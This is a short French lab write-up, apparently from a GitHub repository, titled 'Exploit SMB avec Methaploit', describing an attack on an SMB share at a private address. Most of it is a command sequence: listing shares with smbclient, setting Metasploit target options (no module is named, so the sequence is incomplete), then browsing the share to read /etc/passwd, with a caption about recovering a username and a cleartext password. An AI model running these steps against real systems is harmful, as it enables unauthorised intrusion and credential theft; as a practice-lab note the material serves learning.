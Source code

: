 ## Exploit SMB avec Methaploit

```bash

smbclient -L //10.6.0.7
msfconsole
set RHOST 10.6.0.7
set SMBSHARE tmp
run
exit

smbclient //10.6.0.7/tmp
cd roottfs
cd etc
more passwd
```
![Capture de la récupération de l'utilisateur et du mot de passe en claire](Images/smb-2)
